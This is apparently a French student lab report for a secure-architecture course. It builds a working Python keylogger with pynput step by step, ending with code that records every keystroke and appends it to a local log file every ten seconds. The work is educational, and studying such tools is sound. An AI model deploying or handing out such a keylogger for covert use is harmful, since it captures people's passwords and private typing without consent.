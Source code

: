 # Architecture Sécurisé

Notes de cours par `Thomas PEUGNET`.

# Rendu LAB01

## Questions

>  Qu'est-ce qu'un keylogger ?

Un keylogger est un programme qui enregistre les frappes au clavier. Il existe 2 types de keyloggers, matériel et logiciels. Le premier type est comme un adaptateur inséré entre le clavier et l'ordinateur, qui intercepte et enregistrent les frappes directement au niveau matériel. Le second type est un programme informatique qui surveille et enregistre les frappes au clavier en s'exécutant en arrière-plan sur le système d'exploitation.

> Y a-t-il une utilisation légitime pour ce genre de programme ? Expliquez.

Oui, un keylogger peut avoir des utilisations légitimes lorsqu'il est déployé de manière éthique et avec consentement.

> Quel est le rôle du paramètre `on_press` ?

Nous avons le code suivant:
```python
from pynput import keyboard

def processkeys(key):
    print(f"Touche appuyée : {key}")

with keyboard.Listener(on_press=processkeys) as keyboard_listener:
    keyboard_listener.join()
```

Le paramètre `on_press` désigne la fonction qui sera appelée à chaque fois qu'une touche est pressée. Elle permet de spécifier le traitement à effectuer pour chaque frappe.

Nous pouvons constater que cela fonctionne parfaitement.

![image-20241128084526452](./assets/image-20241128084526452.png)

> Quel est le rôle des instructions avec le `with`?

Ces instructions permettent de démarrer le keylogger. La méthode `keyboard.Listener` initialise l'écoute, et `keyboard_listener.join()` maintient le programme en fonctionnement jusqu'à ce que l'utilisateur fasse un kill explicite du programme.

> Que se passe-t-il lorsque vous tapez des touches sur le clavier ?

Nous pouvons constater que le programme fonctionne correctement, dans la mesure où on lui demande de capturer l'évènement de tape sur le clavier individuellement.

> Quel est le problème d'affichange ? Essayez de l'améliorer.

Le problème principal, outre le fait que chaque touche donne lieu à un saut de ligne, est que certains évènements portent leur nom et non la valeur à laquelle nous nous attendons. Par exemple, des touches comme `<Key.shift>` ou `<Key.cmd>` apparaissent telles quelles dans la sortie.

Nous allons ajouter le code suivant:

```python
log = ""

def processkeys(key):
    global log
    try:
        log += key.char
    except AttributeError:
        if key == keyboard.Key.space:
            log += " "
        elif key == keyboard.Key.enter:
            log += "\n"
        elif key == keyboard.Key.backspace:
            log = log[:-1]
        else:
            log += ""

    print(" -> Final Text: " + log)
```

Nous donnant donc notre fichier complet:

```python
from pynput import keyboard

log = ""

def processkeys(key):
    global log
    try:
        log += key.char
    except AttributeError:
        if key == keyboard.Key.space:
            log += " "
        elif key == keyboard.Key.enter:
            log += "\n"
        elif key == keyboard.Key.backspace:
            log = log[:-1]
        else:
            log += ""

    print(" -> Final Text: " + log)

with keyboard.Listener(on_press=processkeys) as keyboard_listener:
    keyboard_listener.join()
```

Nous pouvons constater que cela fonctionne correctement.

![image-20241128085842674](./assets/image-20241128085842674.png)

> Améliorez votre Keylogger en mettant en place un fichier `log.txt` qui va stocker les valeurs saisies.

>  Que fait la méthode `open` ?

La méthode `open` ouvre un fichier sur le système. Si le fichier n'existe pas, il le crée.

> `logfile = open(path, "a")` ?

Cette ligne ouvre ou crée le fichier `log.txt` en mode ajout (append), permettant d'écrire à la suite des données existantes.

> Que représente le paramètre `"a"` ?

Le paramètre `"a"` (append) signifie que le fichier sera ouvert en mode ajout. Les nouvelles données seront ajoutées à la fin du fichier sans effacer son contenu existant.

> Ajouter l’instruction `logfile.close()`. À quoi sert-elle ?

La méthode `close()` libère les ressources associées au fichier. Elle garantit que toutes les données en mémoire tampon sont écrites dans le fichier et ferme le fichier proprement.

Nous avons donc, *in finne*, le code suivant:

```python
from pynput import keyboard
import os
import threading

log = ""
path = "/Users/thomas/Desktop/log.txt"

def processkeys(key):
    """
    Process the keys pressed by the user and store them in the log variable.
    """
    global log
    try:
        log += key.char
    except AttributeError:
        if key == keyboard.Key.space:
            log += " "
        elif key == keyboard.Key.enter:
            log += "\n"
        elif key == keyboard.Key.backspace:
            log = log[:-1]
        else:
            log += ""

def report():
    """
    Report the log to the attacker's server.
    """
    global log, path
    with open(path, "a") as logfile:
        logfile.write(log)
    log = ""
    threading.Timer(10, report).start()


# Start the keylogger
with keyboard.Listener(on_press=processkeys) as keyboard_listener:
    report()
    keyboard_listener.join()
```

**Note: **La ligne `threading.Timer(10, report).start()` exécute la fonction `report` toutes les 10 secondes en démarrant un nouveau thread. Cela permet d'enregistrer périodiquement les frappes dans le fichier sans bloquer le programme principal. Nous avons également supprimer la ligne de `print` de la fonciton `processkeys` afin de rendre le keylogger visuellement plus lisible.

Nous pouvons constater que cela fonctionne correctement:

![image-20241128091305349](./assets/image-20241128091305349.png)

> Ajouter un appel à la fonction `report()` avant

Nous modifions donc notre code de la manière suivante.

```python
# [....]
report()

# Start the keylogger
with keyboard.Listener(on_press=processkeys) as keyboard_listener:
    keyboard_listener.join()
```

Nous lançons notre programme, et constatons que celui-ci se lance mais n'écris pas tout de suite dans le fichier `log.txt`.

![image-20241128091704793](./assets/image-20241128091704793.png)

Nous pouvons voir une ligne s'afficher dans le `tail -f log.txt` une dizaine de secondes après notre frappe.

![image-20241128091712875](./assets/image-20241128091712875.png)